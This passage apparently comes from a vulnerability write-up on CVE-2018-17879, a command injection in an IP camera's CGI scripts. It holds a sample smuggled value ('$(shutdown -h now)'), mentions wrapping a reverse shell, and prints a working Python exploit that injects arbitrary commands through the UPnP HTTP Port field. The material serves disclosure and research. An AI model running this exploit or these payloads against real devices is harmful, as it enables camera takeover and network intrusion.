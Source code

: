 ```
if __name__ == '__main__':
    main()

```
### CVE-2018-17879[⌗](#cve-2018-17879)

Remote code execution through OS injection

#### Description[⌗](#description-2)

The `/cgi-bin/` directory contains several scripts that are used to control and configure the camera. Among other tasks, these scripts are responsible for changes to the camera’s image settings (contrast, color values, brightness) or the network settings of the device. The attack is based on the fact that some of the scripts do not check input that comes from the user and are passed directly to the `system()` command. If control characters are used to spoof the user input, arbitrary C ode can be executed. For example, such an input could look like this: `$(shutdown -h now)`. This would shut down the camera from the outside. An attacker could use this to completely take over the camera, attack the internal network (private or corporate), launch further attacks from the camera, as well as change, pause or delete the camera’s image, and completely disable the camera.

#### Exploitation[⌗](#exploitation-2)

As simple as wrapping a reverse shell code in `$(...)`.

See this exploit, where the injection happens in the `UPnP HTTP Port` field:

```
#!/usr/bin/env python3
import argparse
import requests
import urllib
import huepy
def main():
    parser = argparse.ArgumentParser(description="exploit-17879")
    parser.add_argument('url', type=str, help='target url including port, eg http://127.0.0.1:8080')
    parser.add_argument("cmd", type=str, help="the cmd to exec, e.g. 'ls /'")
    args = parser.parse_args()
    print(huepy.cyan("[~] Exploit for CVE-2018-17879"))
    execCmd(args.url, args.cmd)
def execCmd(target, command):
    print(huepy.green("[~] Executing command '%s'..." % (command)))
    percentCommand = urllib.parse.quote(command)
    r = requests.get("%s/cgi-bin/admin/param?action=update&General.Network.UPnP.NATTraversal.HTTPPort=1%%3e/dev/null%%202%%3e/dev/null;%s;false" % (target, percentCommand), verify=False)
    print(r.text[:-3])
    print(huepy.yellow("[~] Cleaning up..."))
    r = requests.get("%s/cgi-bin/admin/param?action=update&General.Network.UPnP.NATTraversal.HTTPPort=1337" % (target), verify=False)
if __name__ == '__main__':
    main()

```
#### Evaluation[⌗](#evaluation-2)
